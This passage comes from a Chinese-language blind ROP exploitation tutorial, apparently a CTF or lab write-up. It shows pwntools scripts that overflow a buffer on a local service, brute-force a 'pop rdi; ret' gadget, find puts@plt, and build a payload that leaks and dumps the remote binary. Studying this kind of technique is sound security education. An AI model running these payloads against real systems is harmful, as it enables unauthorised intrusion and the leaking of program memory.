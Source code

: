 有了 ret，于是我可以开始寻找 pop rdi;ret了。



```
def get_useful_gadget(addr):
    io = remote("127.0.0.1",10002)
    payload1 = 'A'*72 +p64(addr-1) + p64(0)+p64(ret)+p64(stop_gadget)
    payload2 = 'A'*72 +p64(addr) + p64(0)+p64(ret)+p64(stop_gadget)
    payload3 = 'A'*72 +p64(addr+1) +p64(ret)+p64(stop_gadget)
    io.recvuntil("WelCome my friend,Do you know password?")
    try:
        io.sendline(payload1)
        if io.recvuntil("WelCome my friend,Do you know password?"):
            io.sendline(payload2)
            if io.recvuntil("WelCome my friend,Do you know password?"):
                io.sendline(payload3)
                if io.recvuntil("WelCome my friend,Do you know password?"):
                    io.info("find gdgets at 0x%x" % addr)
                    log_in_file(addr)
                    io.close()
    except EOFError as e:
        io.close()
        log.info("the connection is close at 0x%x" %addr)
start = 0x400000
# count = 0
while True:
    start += 1
    get_useful_gadget(start)
```

找到pop rdi;ret了 ，gadget 的需求我们达到了。

<br>

**dump 程序**

照理，这个时候我们应该可以开始dump程序了，但是紧接着一个问题来了，我们不知道put_plt的地址。我们知道，puts函数能打印字符串，于是我们设想构造一个payload来验证得到的是不是puts_plt的地址，例如

```
payload = 'A'*72 +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

如果打印前四个字符为 x7fELF，则addr为puts_plt。

我找到的是 pop_rdi_ret = 0x4005d6

有了 gadget 和put_plt，我们就可以着手dump程序了。

首先我们需要构造一个leak的函数：

```
payload = 'a'*72 + p64(pop_rdi_ret) +p64(addr) + p64(puts_plt) +p64(stop_gadget)
```

这样就可以开始leak，但是还有一个问题，如果对一个x00的地址进行leak，返回是没有结果的，因此如果返回没有结果，我们就可以确定这个地址的值为x00，所以可以设置为x00然后将地址加1进行dump。
